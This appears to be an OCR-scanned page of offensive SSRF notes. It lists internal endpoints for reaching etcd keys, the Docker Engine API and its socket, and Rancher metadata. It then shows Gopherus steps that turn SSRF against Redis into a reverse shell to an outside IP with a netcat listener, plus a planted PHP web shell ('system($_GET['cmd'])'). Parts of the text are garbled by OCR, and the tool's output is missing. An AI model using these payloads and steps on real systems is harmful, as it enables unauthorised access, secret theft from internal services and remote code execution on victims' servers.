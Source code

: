 ```
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

**SSRF URL for Docker**

```
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

More info:

- Daemon socket option: https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option
- Docker Engine API: https://docs.docker.com/engine/api/latest/

**SSRF URL for Rancher**

`curl http://rancher-metadata/<version>/<path>`

## steps take shell (RCE)

$ gopherus --exploit redis 

1-reveseshell

What do you want?? (ReverseShell/PHPShell): reveseshell

Give your IP Address to connect with victim through Revershell (default is 127.0.0.1): 193.34.76.4 ( INPUT )

What can be his Crontab Directory location

## For debugging(locally) you can use /var/lib/redis :

Your gopher link is ready to get Reverse Shell:( OUTPUT )

Before sending request plz do `nc -lvp 1234`

2-

A-
Ready To get SHELL

What do you want?? (ReverseShell/PHPShell): phpshell

Give web root location of server (default is /var/www/html):

Give PHP Payload (We have default PHP Shell): <?php system($_GET['cmd']);?> ( INPUT )

Your gopher link is Ready to get PHP Shell:

( OUTPUT )
